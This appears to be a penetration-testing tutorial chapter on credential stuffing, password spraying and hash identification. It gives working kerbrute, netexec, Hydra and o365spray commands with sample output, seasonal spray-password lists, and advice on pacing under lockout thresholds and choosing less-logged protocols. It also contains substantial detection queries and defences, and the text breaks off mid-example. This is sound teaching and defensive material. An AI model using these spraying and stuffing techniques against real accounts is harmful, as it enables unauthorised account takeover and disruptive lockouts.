






**Level:** Expert · **Track:** Penetration Testing · **Read time:** 225 min

This is Chapter 6, the final chapter of the Password Attacks notebook. The previous five chapters built the offline half of the discipline: what a hash is (Chapter 1), how to build wordlists and rules (Chapter 2), online brute force with Hydra (Chapter 3), and the two cracking engines, John (Chapter 4) and hashcat (Chapter 5). This chapter closes the loop with the three *credential* attacks that cause more real breaches than every zero-day combined: **credential stuffing**, **password spraying**, and the connective-tissue skill of **hash identification** that decides which tool and mode you reach for.

These techniques matter because they attack the weakest link in every system — human password *reuse* and *predictability* — rather than any software flaw. Verizon's breach reports year after year put stolen and reused credentials at the top of the initial-access list. An attacker who never finds a single vulnerability can still walk in the front door with a password the victim reused from a breached forum. This chapter teaches how that works, how to do it in an authorised engagement, and — because these are the attacks defenders actually face daily — how to detect and stop it.

Everything here is **strictly lab-scoped and assumes explicit written authorisation**. Credential stuffing and spraying against systems you do not own or have permission to test is unlawful account-access activity in essentially every jurisdiction, and unlike offline cracking it *is* logged, attributable, and disruptive (it locks out real users). Build the lab in Part 12, attack only accounts you provision yourself, and keep every command inside that boundary.

---

## Part 1: Three Attacks People Constantly Confuse

Brute force, credential stuffing, and password spraying are three different shapes of the same "guess a login" idea, and mixing them up leads to lockouts and failed engagements. The distinction is about *how many passwords* you try against *how many accounts*, and *where the guesses come from*.



The precise definitions:

- **Brute force / dictionary (Chapters 3–5):** many candidate passwords against a *single* account. High volume per account, so it trips account-lockout policies fast. Best used offline (against a hash) where there is no lockout.
- **Credential stuffing:** you have *real* `email:password` pairs from a breach, and you replay each pair against a target service, betting the user reused that password. One guess per account, but the guess is a known-good password from somewhere else — so hit rates are high (commonly 0.1–2% of a large list, which is enormous at scale).
- **Password spraying:** you have *many usernames* but few passwords, so you try *one* carefully chosen common password (e.g. `Autumn2024!`) against *every* account, wait out the lockout window, then try the next password. One guess per account per round means you stay under lockout thresholds while still covering the whole org.

| Attribute | Brute force | Credential stuffing | Password spraying |
|---|---|---|---|
| Passwords per account | many | one (leaked) | one per round |
| Accounts targeted | one | many (from breach) | many (whole org) |
| Guess source | wordlist/mask | breach corpus pairs | few common passwords |
| Lockout risk | very high | low (1 try each) | low if paced |
| Hit driver | password weakness | password **reuse** | password **commonality** |
| Typical target | a hash / one login | web apps, SSO | AD, OWA/O365, VPN |

Getting this right is operationally critical: spraying done *wrong* (too many passwords too fast) becomes brute force and locks out the entire company — a guaranteed way to end an engagement badly and get noticed.

---

## Part 2: Password Reuse and the Breach Economy

Credential stuffing works for one reason: **people reuse passwords.** Studies consistently find that a majority of users reuse the same or trivially-modified password across multiple sites. When any one of those sites is breached and its password database leaked, every *other* site where that user reused the password is now exposed — even though those sites were never touched.

The raw material is **breach corpora** — datasets of leaked credentials:

- **Individual breach dumps:** a single site's leaked `users` table (emails + hashes, or emails + plaintext if it was stored badly). Historic examples: LinkedIn (2012), Adobe (2013), MySpace, Dropbox.
- **Breach compilations:** aggregations of many breaches into one giant list. "Collection #1–#5" and various "COMB" (Compilation of Many Breaches) files contain *billions* of `email:password` lines.
- **Search/index services:** platforms that index breach data and let you look up an email or domain (Have I Been Pwned for *notification*; commercial services for the actual credentials, used under authorisation).

For a pentester, the *authorised* use is targeted: given a client domain, find which of their employees appear in public breach data and what passwords leaked, then test (with permission) whether those passwords still work on the client's systems. This is a legitimate, high-value finding — it directly demonstrates real-world initial-access risk.



### Checking breach exposure (authorised)

- **Have I Been Pwned (HIBP)** — tells you *whether* an email/domain appears in a breach (not the password). The **domain search** and **k-anonymity password API** are the ethical tools here:

```bash
# HIBP k-anonymity: check if a password hash prefix appears in breaches WITHOUT sending the password
pw='Summer2024!'
sha1=$(printf '%s' "$pw" | sha1sum | awk '{print toupper($1)}')
prefix=${sha1:0:5}; suffix=${sha1:5}
curl -s "https://api.pwnedpasswords.com/range/$prefix" | grep -i "$suffix"
# 0018A45C4D1DEF81644B54AB7F969B88D65:3   <- count of times seen in breaches
```

The k-anonymity model sends only the first 5 hex of the SHA-1 and matches the suffix locally, so the full password never leaves your machine — this is exactly how "have I been pwned" password checks work safely, and how you should screen your own users defensively.

- **Breach datasets** (commercial, authorised): given `corp.com`, return the leaked `email:password` rows for that domain. Feed those pairs to a stuffing test against the client's SSO/VPN (with written permission and change control).

**The reuse insight for offline cracking too:** every password you crack in Chapters 4–5 is itself reuse intelligence — that user probably used the same or a mangled version elsewhere. Cracked plaintexts become a bespoke, high-hit wordlist for stuffing and spraying the same target.

---

## Part 3: Credential Stuffing in Practice (Authorised)

Stuffing replays `user:pass` pairs. The mechanics are simple; the discipline is in scoping, pacing, and avoiding collateral lockouts.

### Prepare the credential list

```bash
# From a breach export filtered to the client domain (authorised dataset)
grep -i '@corp.com:' breach-corp.txt > corp-creds.txt
wc -l corp-creds.txt                       # how many pairs to test
cut -d: -f1 corp-creds.txt | sort -u > corp-users.txt   # unique users (feeds spraying too)
```

### Test the pairs against a login (lab example — a web app)

For a web login, the previous chapter's Hydra `http-post-form` handles pair-mode with `-C` (colon-separated combo file):

```bash
# -C combo file: each line user:pass tried as a pair (NOT the full cartesian product)
hydra -C corp-creds.txt target.lab \
  http-post-form "/login:user=^USER^&pass=^PASS^:Invalid credentials" \
  -t 4 -f
```

`-C file` is the stuffing flag: it tries line 1's user with line 1's password, line 2 with line 2, and so on — one guess per account, exactly the stuffing model, instead of `-L`×`-P` which would be brute force.

### Against Microsoft/O365 or OWA (common real target)

Tools like `o365spray`, `MailSniper`, and `TREVORspray` handle the Microsoft auth flow (and its quirks: whether an account exists, whether it's federated, whether MFA blocks it):

```bash
# Validate which users exist first (reduces noise), then test known pairs
o365spray --validate --domain corp.com
o365spray --enum --userfile corp-users.txt --domain corp.com
o365spray --password 'Summer2024!' --userfile valid-users.txt --domain corp.com
```

### Stuffing realities

- **One try per account** keeps you under lockout — that's the whole appeal versus brute force.
- **MFA breaks naive stuffing:** a correct password still hits an MFA prompt. Findings should note "password valid but MFA enforced" (a *partial* success that still matters — it means the password is known and MFA is the only thing standing between the attacker and the account).
- **Rate/behaviour defences:** modern IdPs detect stuffing by velocity, impossible travel, and known-bad IPs; from a single engagement IP you may get throttled. Pace and, where authorised, distribute.
- **Report the pattern, not just the hit:** "37 employees appear in breach corpora; 6 of those passwords still authenticate to the VPN; 4 lacked MFA" is a devastating, actionable finding.

---

## Part 4: Password Spraying — The Lockout-Aware Attack

Spraying flips the ratio: *one* password, *many* accounts. It exists to defeat **account lockout**, the control that kills brute force. If a domain locks an account after 5 bad attempts in 30 minutes, you can safely try *1* password against *every* account, wait the window, and try the next — never accumulating enough failures on any single account to lock it.

### The lockout math (get this exactly right)

Before spraying, learn the domain's lockout policy and stay well under it:

```bash
# From a domain-joined or authenticated context:
net accounts                          # Windows: shows lockout threshold + window
# or via LDAP / crackmapexec:
netexec smb dc.corp.local -u user -p pass --pass-pol
# Lockout Threshold: 5
# Lockout Window (Observation): 30 minutes
# Lockout Duration: 30 minutes
```

The safe rule: **attempts per account per observation window ≤ threshold − 1** (leave a buffer for the user's own failed logins). If threshold is 5 and window is 30 min, spray *one* password every 30+ minutes and you will never lock anyone. Two passwords per window is riskier; more is reckless.



### Choosing the spray passwords

The art is picking passwords that a *policy-compliant* human would actually use. Season+year and company-name patterns dominate corporate environments:

| Pattern | Examples |
|---|---|
| Season + year + symbol | `Autumn2024!`, `Winter2025!`, `Spring24!` |
| Company + number | `Acme2024`, `Acme123!`, `Acme@2025` |
| Month + year | `October2024!`, `Oct2024!` |
| Keyboard walks | `Qwerty123!`, `Password1!`, `Welcome1` |
| Local sports/city | `Liverpool1!`, `Cowboys2024!` |

Derive these from the target: current season/year, the company name (CeWL the site — Chapter 2), and the region. One well-chosen spray password often yields several accounts because *many* people independently pick the same compliant-but-obvious password.

---

## Part 5: Spraying Tools by Protocol

Different services need different sprayers. Learn one per protocol.

### Kerberos / Active Directory — `kerbrute` (quiet, pre-auth based)

`kerbrute` sprays by requesting Kerberos pre-authentication, which is **fast and does not generate a normal logon-failure (4625) event** on member servers — only KDC events — making it quieter than SMB spraying. First time using it: it's a single Go binary from ropnop; download the release and run.

```bash
# User enumeration (valid vs invalid usernames, no failed-logon noise)
kerbrute userenum -d corp.local --dc dc.corp.local users.txt

# Password spray: one password to all users
kerbrute passwordspray -d corp.local --dc dc.corp.local users.txt 'Autumn2024!'
# [+] VALID LOGIN:  jsmith@corp.local:Autumn2024!
```

- `userenum` — tells valid from invalid usernames via the KDC's differing responses (great for building `users.txt` before spraying, so you don't waste guesses on non-existent accounts).
- `passwordspray` — one password against the whole list. Add `--delay` to pace, `--safe` to abort if an account appears locked.

### SMB / LDAP / MSSQL / WinRM — `netexec` (formerly CrackMapExec)

`netexec` (the maintained fork of CrackMapExec, invoked as `nxc`) sprays across many protocols and reads lockout policy:

```bash
netexec smb dc.corp.local -u users.txt -p 'Autumn2024!' --continue-on-success
# SMB  10.0.0.10  445  DC  [+] corp.local\jsmith:Autumn2024! 
netexec smb dc.corp.local -u users.txt -p 'Autumn2024!' --continue-on-success | grep '\[+\]'
```

`--continue-on-success` keeps going after the first hit (you want *all* accounts using that password, not just one). Swap `smb` for `ldap`, `mssql`, `winrm`, `rdp`, `ssh` to spray those services. **netexec's `[-]` vs `[+]` output** is your result: `[+]` = valid, `[-]` = invalid, and a `STATUS_ACCOUNT_LOCKED_OUT` means you sprayed too aggressively — stop.

### Microsoft 365 / Azure AD / OWA — `TREVORspray`, `o365spray`, `MailSniper`

```bash
trevorspray -u valid-users.txt -p 'Autumn2024!' --url https://login.microsoftonline.com
```

Cloud IdPs have their own lockout ("smart lockout") and detection, so pacing and source-IP diversity matter more here.

### Generic web logins — Hydra / ffuf

For a custom web app, spray one password across a user list with Hydra's `http-post-form` (Chapter 3), using `-L users.txt -p 'Autumn2024!'` (note lowercase `-p` = single password):

```bash
hydra -L users.txt -p 'Autumn2024!' target.lab \
  http-post-form "/login:user=^USER^&pass=^PASS^:Invalid" -t 4
```

### Sprayer selection cheat table

| Target | Tool | Note |
|---|---|---|
| AD (Kerberos) | `kerbrute` | quietest; enum + spray |
| AD (SMB/LDAP) | `netexec` | reads lockout policy; multi-protocol |
| RDP | `netexec rdp` / `hydra rdp` | noisy; pace hard |
| O365/Azure | `TREVORspray`, `o365spray` | smart-lockout aware |
| OWA on-prem | `MailSniper` | Exchange-specific |
| Web login | `hydra http-post-form`, `ffuf` | app-specific success/fail string |
| SSH | `netexec ssh`, `hydra ssh` | keys usually better |

---

## Part 6: Timing, Jitter, and Observation Windows

The difference between a professional spray and a company-wide outage is *pacing*. Three levers:

- **Observation window:** the period over which the domain counts failures (e.g. 30 min). One spray password per window is the safe cadence. Set your tool's delay to exceed the window between rounds.
- **Jitter:** randomised delay between individual guesses so the traffic doesn't look like a metronome (which is trivial to detect). Many sprayers offer `--jitter`/`--delay`.
- **Business hours:** spraying during work hours hides your failures among the users' own occasional typos and avoids the "50 auths at 3 a.m." anomaly. It also means a genuine lockout is noticed and fixed fast — a double-edged trade.

```bash
# Example: kerbrute with pacing (conceptual flags; check your version)
kerbrute passwordspray -d corp.local --dc dc.corp.local --delay 1500 users.txt 'Autumn2024!'
```

**A worked lockout calculation.** Policy: threshold 5, window 30 min. You have 800 users and 6 candidate passwords.

- Safe cadence: 1 password/round, one round per 30 min → 6 rounds → **~3 hours** total, zero lockouts (assuming users don't add their own failures — leave the 1-attempt buffer).
- Reckless: all 6 passwords back-to-back → any user who also mistypes once that window could hit 7 failures → lockouts → helpdesk tickets → detection → engagement over.

The professional always chooses the slow path. "It took three hours" is a fine sentence in a report; "we locked out 800 employees" is a career-limiting one.

---

## Part 7: Hash Identification — Choosing Tool and Mode

Stuffing and spraying attack *live logins*; but the moment you obtain *hashes* (from a dump, a capture, a database), you're back to Chapters 4–5 — and the first step there is identifying the hash so you pick the right `john --format` / hashcat `-m`. Misidentification is the number-one cause of "it won't crack."

### Identify by shape (the fast, tool-free skill)

Memorise the common tells (Chapter 1 built this):

| Shape / prefix | Hash | John `--format` | hashcat `-m` |
|---|---|---|---|
| 32 hex | MD5 or NTLM (context!) | `raw-md5` / `nt` | 0 / 1000 |
| 40 hex | SHA1 | `raw-sha1` | 100 |
| 64 hex | SHA-256 | `raw-sha256` | 1400 |
| `$1$...` | md5crypt | `md5crypt` | 500 |
| `$5$...` | sha256crypt | `sha256crypt` | 7400 |
| `$6$...` | sha512crypt | `sha512crypt` | 1800 |
| `$2a$/$2b$/$2y$...` | bcrypt | `bcrypt` | 3200 |
| `$apr1$...` | Apache md5 | `md5crypt-a` | 1600 |
| `sha1$salt$...` | Django SHA1 | `django` | 124 |
| `$pbkdf2-sha256$...` | PBKDF2 | `pbkdf2-hmac-sha256` | 10900 |
| `$krb5tgs$23$...` | Kerberoast | `krb5tgs` | 13100 |
| `$krb5asrep$23$...` | AS-REP | `krb5asrep` | 18200 |
| `aad3b435...:31d6...` | LM:NT pair | `lm`/`nt` | 3000/1000 |
| `WPA*01/02*...` | WPA PMKID/EAPOL | — | 22000 |

### Identify with tools

```bash
# name-that-hash (modern; prints BOTH hashcat -m and John --format, ranked)
nth -t '$6$rounds=5000$abc$H7...'          # or: name-that-hash -t '...'

# haiti (Ruby; similar, sometimes wider coverage)
haiti '$2b$12$abcdefghijklmnopqrstuv'

# hashid (classic; prints candidate types; -m adds hashcat modes)
hashid -m -j '5f4dcc3b5aa765d61d8327deb882cf99'   # -j adds John format too

# hashcat's own built-in autodetect helper
hashcat --identify hashes.txt              # lists candidate -m modes for the file
```

`name-that-hash` (aliased `nth`) is the current go-to because it prints the exact `-m` and `--format` you need, ranked by likelihood, and flags whether a mode is "most likely." Feed its top result straight into hashcat/John.

### The ambiguity problems that bite

- **32-hex = MD5 or NTLM.** No tool can tell them apart from the string alone — *context* decides (Windows dump → NTLM; web app DB → MD5). Try both if unsure; a quick rockyou pass under each is cheap.
- **Salted vs unsalted layout.** Many app hashes are `hash:salt` or `salt$hash` or embedded — you must format the line the way the mode expects (hashcat's example-hashes page shows the exact layout per `-m`).
- **Encoding.** Base64-wrapped hashes (some `{SSHA}` LDAP formats) need the right mode (`-m 111` etc.), not the raw-SHA1 mode.



---

## Part 8: Tying It Together — The Credential Attack Loop

These techniques form a cycle, each feeding the next, which is how real intrusions escalate from one leaked password to domain compromise.



The loop: leaked credentials give a foothold; the foothold yields hashes; cracked hashes reveal the org's *password DNA* (their favourite patterns); that DNA makes spraying and further stuffing far more effective; more access yields more hashes. A single reused password can unwind an entire domain this way, without a single software exploit. Understanding the loop is what turns isolated techniques into an engagement narrative — and shows defenders exactly where to break the chain (MFA on the foothold, slow hashes on the dump, spraying detection on the escalation).

---

## Part 9: Detection & Defense Angle

Unlike offline cracking, stuffing and spraying happen against *your* live systems and *are* detectable and preventable. This is the defender's home turf.

### Prevent

- **MFA everywhere, phishing-resistant where possible.** MFA breaks stuffing and spraying outright — a correct password isn't enough. This is the single highest-impact control. Prefer FIDO2/WebAuthn over SMS/OTP.
- **Ban breached and common passwords.** Screen new passwords against breach corpora (Azure AD Password Protection, or self-hosted HIBP k-anonymity as in Part 2). If `Autumn2024!` and `Welcome1` can't be *set*, they can't be *sprayed*.
- **Length over complexity.** Long passphrases defeat the seasonal-pattern guesses that spraying relies on.
- **Sensible lockout + smart lockout.** A lockout policy stops brute force; *smart* lockout (lock the attacker's IP/pattern, not the user) stops spraying without letting attackers weaponise lockout into a denial of service.
- **Disable legacy/basic auth.** Legacy protocols (IMAP/POP/SMTP basic auth, on-prem OWA basic) bypass MFA and are the favourite spraying target — turn them off.

### MFA is the best control — but understand its limits

MFA breaks stuffing and spraying because a correct password is no longer sufficient. It is the highest-impact single control here. But not all MFA is equal, and attackers have adapted:

- **MFA fatigue / push bombing:** repeatedly triggering push prompts until a tired user taps "approve." Mitigate with *number matching* (the user types a code shown on the login screen, so a blind approve does nothing) and by capping/altering prompt frequency.
- **Legacy/basic auth bypass:** IMAP/POP/SMTP and old Exchange endpoints often *don't* enforce MFA — sprayers target them specifically. Disabling legacy auth is as important as enabling MFA.
- **Token/session theft:** an attacker who steals a session cookie (via phishing/AiTM proxies like Evilginx) rides an already-MFA'd session. Phishing-resistant FIDO2/WebAuthn and token-binding raise this bar.
- **SIM swap / SS7:** SMS OTP can be intercepted or redirected. Prefer app-based or hardware factors over SMS.
- **Fallback weaknesses:** if "can't use MFA" self-service recovery is weak, it becomes the bypass. Harden recovery flows.

The practical guidance: enable MFA everywhere, prefer **phishing-resistant** factors (FIDO2 security keys, passkeys) for privileged and external access, turn on **number matching** for push, and **disable legacy auth** so there's no MFA-free side door. MFA plus breached-password screening plus length is the combination that makes stuffing and spraying essentially unprofitable.

### Detect

| Signal | Telemetry |
|---|---|
| Spraying (many users, one password) | **many 4625** (failed logon) across *distinct* accounts from one source in a short window; **4771** Kerberos pre-auth failures (kerbrute) |
| Stuffing (many pairs) | spikes in failed logins across many accounts from one IP/ASN; impossible-travel successes |
| Successful spray | a **4624** success shortly after a burst of 4625s for other users from the same source |
| O365/Azure | sign-in logs: many users, one IP, "smart lockout" events, legacy-auth attempts |
| Lockout storms | surges in **4740** (account lockout) events |

The classic spraying fingerprint is **one source, many usernames, one password, low per-account failure count** — invisible to a per-account lockout counter but obvious to a detection that correlates *across* accounts. Build that correlation (SIEM rule: N distinct accounts failing from one source within the observation window) and spraying lights up immediately.

### Respond

- Alert on the cross-account failure pattern, not just per-account thresholds.
- Force reset + MFA enrolment for any account that authenticated after a spray burst.
- Block the source, hunt for the *successful* login hidden among the failures, and check for legacy-auth bypass.

**IR use case:** finding a burst of 4625s across dozens of accounts from a single internal host is a textbook spraying indicator — that host is likely already compromised and being used to escalate.

### Concrete detection queries

The correlation "one source, many distinct accounts, short window" translates directly into SIEM rules. A Microsoft Sentinel / Defender **KQL** rule for on-prem spraying:

```kusto
SecurityEvent
| where EventID == 4625                       // failed logon
| summarize FailedAccounts = dcount(TargetUserName),
            Accounts = make_set(TargetUserName)
    by IpAddress = IpAddress, bin(TimeGenerated, 30m)
| where FailedAccounts >= 10                   // many DISTINCT users from one source
```

The equivalent in **Splunk** SPL:

```spl
index=wineventlog EventCode=4625
| bin _time span=30m
| stats dc(Account_Name) as distinct_users values(Account_Name) as users by Source_Network_Address _time
| where distinct_users >= 10
```

For Azure AD / Entra sign-in logs, the cloud spraying signal:

```kusto
SigninLogs
| where ResultType != 0                        // failed sign-ins
| summarize Users = dcount(UserPrincipalName) by IPAddress, bin(TimeGenerated, 1h)
| where Users >= 10
```

And the *successful* spray — a success immediately after a failure burst from the same source — is the highest-value alert because it catches the account that actually fell:

```kusto
let bursts = SecurityEvent | where EventID == 4625
    | summarize c = count() by IpAddress, bin(TimeGenerated, 30m) | where c >= 20;
SecurityEvent
| where EventID == 4624                         // successful logon
| join kind=inner bursts on IpAddress
| project TimeGenerated, TargetUserName, IpAddress
```

The design principle behind all four: **count distinct accounts per source, not attempts per account.** Per-account lockout counters are blind to spraying by design; only cross-account correlation catches it. Tune the thresholds to your environment (a busy VPN concentrator legitimately sees many users) and pair with an allowlist of known auth proxies.

---

## Part 10: Hands-On Lab — Spray, Stuff, Identify (Lab-Scoped)

Provision your own accounts; never point these at anything you don't own.

### Step 1 — Stand up targets

Use a small AD lab (e.g. GOAD / a test DC) or a local web login. Create users with deliberately weak, policy-compliant passwords:

```bash
# On a test DC (PowerShell), create users with seasonal passwords:
# New-ADUser jsmith  -AccountPassword (ConvertTo-SecureString 'Autumn2024!' -AsPlainText -Force) -Enabled $true
# New-ADUser adunn   -AccountPassword (ConvertTo-SecureString 'Welcome1'    -AsPlainText -Force) -Enabled $true
# New-ADUser mbrown  -AccountPassword (ConvertTo-SecureString 'Spring2025!' -AsPlainText -Force) -Enabled $true
printf 'jsmith\nadunn\nmbrown\nsvc_sql\n' > users.txt
```

### Step 2 — Learn the lockout policy first

```bash
netexec smb dc.lab.local -u jsmith -p 'Autumn2024!' --pass-pol
# Lockout Threshold: 5   Observation Window: 30 minutes
```

### Step 3 — Enumerate valid users (quietly)

```bash
kerbrute userenum -d lab.local --dc dc.lab.local users.txt
# [+] VALID USERNAME:  jsmith@lab.local
# [+] VALID USERNAME:  adunn@lab.local
```

### Step 4 — Spray one safe password

```bash
kerbrute passwordspray -d lab.local --dc dc.lab.local users.txt 'Autumn2024!'
# [+] VALID LOGIN:  jsmith@lab.local:Autumn2024!
# Done! Tested 4 logins (1 success)

netexec smb dc.lab.local -u users.txt -p 'Autumn2024!' --continue-on-success | grep '\[+\]'
# SMB  dc.lab.local  445  DC  [+] lab.local\jsmith:Autumn2024!
```

### Step 5 — Credential-stuff known pairs at a web login

```bash
printf 'jsmith:Autumn2024!\nadunn:Welcome1\n' > pairs.txt
hydra -C pairs.txt app.lab http-post-form "/login:user=^USER^&pass=^PASS^:Invalid" -t 2 -f
# [80][http-post-form] host: app.lab   login: adunn   password: Welcome1
```

### Step 6 — Identify hashes you dumped

```bash
printf '5f4dcc3b5aa765d61d8327deb882cf99\n' > h.txt        # md5 of 'password'
name-that-hash -f h.txt
# Most likely: MD5  (hashcat -m 0 | john raw-md5) ...
hashcat -m 0 -a 0 h.txt /usr/share/wordlists/rockyou.txt --potfile-disable
# 5f4dcc3b5aa765d61d8327deb882cf99:password
```

### Step 7 — Watch the detection side

On the DC, the spray produces a burst of failed-logon / Kerberos pre-auth-failure events across multiple accounts from one source — open the Security event log and confirm you can *see* your own attack:

```
Event 4625 / 4771 x N accounts, one source IP, within one observation window
```

Seeing your own spray in the logs is the point: it teaches you exactly what the blue team correlates on.

### Step 8 — Contrast the noise of each tool

Run the same spray three ways and diff the DC's event log to feel the OPSEC difference:

```bash
# Loud: SMB spray -> generates 4625 on the DC per attempt
netexec smb dc.lab.local -u users.txt -p 'Autumn2024!'

# Quieter: Kerberos spray -> 4771/4768 (pre-auth), not 4625
kerbrute passwordspray -d lab.local --dc dc.lab.local users.txt 'Autumn2024!'

# Then compare event volumes:
# Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4625} | Measure-Object
# Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4771} | Measure-Object
```

You'll see the SMB run pile up 4625s while the kerbrute run shows up under 4771 instead — the same access outcome, a different forensic footprint. This is why tool choice is an OPSEC decision, not just a convenience one.

### Step 9 — Prove the defence

Turn on the control and watch the attack fail:

```bash
# Set a breached-password ban (conceptually) then try to SET a sprayed password:
# it should be rejected -> the password can never be sprayed because it can't exist.
# Enable MFA on jsmith, re-run the spray:
kerbrute passwordspray -d lab.local --dc dc.lab.local users.txt 'Autumn2024!'
# password still validates at KDC, but interactive/app logon now hits MFA -> no access.
```

This closes the loop: you attacked, you detected, and you verified the fix — the full offence-and-defence arc in one lab.

---

## Part 11: Common Pitfalls & OPSEC

1. **Spraying too fast = mass lockout.** The cardinal sin. Learn the policy, one password per window, leave a buffer. Locking out a company is loud, disruptive, and often ends the engagement.
2. **Spraying invalid usernames.** Wastes attempts and adds noise. Enumerate valid users first (`kerbrute userenum`).
3. **Ignoring MFA in findings.** "Password valid, MFA enforced" is a *real* finding — report it; don't discard a correct password just because MFA blocked the login.
4. **Wrong hash mode.** 32-hex cracked under `-m 0` when it's NTLM (`-m 1000`) yields nothing — identify with context, not just the tool.
5. **Stuffing the full cartesian product.** Using `-L`×`-P` instead of `-C` combo mode turns a stealthy 1-per-account test into a lockout-inducing brute force.
6. **Reusing your source IP after detection.** Once smart-lockout/geo-blocking flags you, rotate (where authorised) or you'll get null results and assume the passwords are wrong.
7. **No authorisation for breach data.** Handling breach corpora and testing found passwords must be in-scope and in writing — this is legally sensitive.
8. **Forgetting business impact.** Even a "safe" spray can trip anomaly detection and page an on-call team at 3 a.m. Time it sensibly and coordinate with the client's blue team if it's a collaborative test.

---

## Part 12: Building the Lab Safely

- **Own every account.** Provision users in your own AD lab (GOAD, a test DC, or a local Samba AD) or your own web app. Never test breach passwords against third-party services.
- **Isolate.** Host-only networking; no path to the internet for the spray traffic.
- **Handle breach data lawfully.** For learning, generate your own "breach" file of `user:pass` pairs you created. Real breach corpora require authorisation and careful handling.
- **Practise the lockout math** by setting a low threshold (e.g. 3) and *deliberately* locking a test account so you internalise how fast it happens — then practise staying under it.
- **Instrument the defender side.** Enable Security auditing on the DC so every lab spray shows up as 4625/4771 — you learn offence and detection in the same exercise.
- **Keep results scoped** per lab; don't let test credentials leak into your real password manager or notes.

---

## Part 13: Username Enumeration & Format Generation

You cannot spray accounts you cannot name. Before any spray, you need a *valid* username list, and building it well is half the battle — spray non-existent accounts and you generate noise for zero return, while missing real accounts means you skip the very users whose passwords are weakest.

### From identities to username candidates

OSINT (LinkedIn, the company site, breach data, email signatures) gives you *people*: "John Smith", "Aisha Dunn". Corporations turn names into usernames with a small set of predictable schemes:

| Scheme | John Smith → |
|---|---|
| first initial + last | `jsmith` |
| first.last | `john.smith` |
| first + last initial | `johns` |
| last + first initial | `smithj` |
| first_last | `john_smith` |
| flast (8-char cap) | `jsmith` |
| firstl | `johns` |
| full email local-part | `john.smith@corp.com` |

You rarely know which scheme the org uses, so you *generate all plausible forms* and let enumeration tell you which exist.

### Generating candidates with `username-anarchy`

```bash
# From a names file "John Smith\nAisha Dunn\n..."
username-anarchy --input-file names.txt > candidates.txt
wc -l candidates.txt
# john.smith
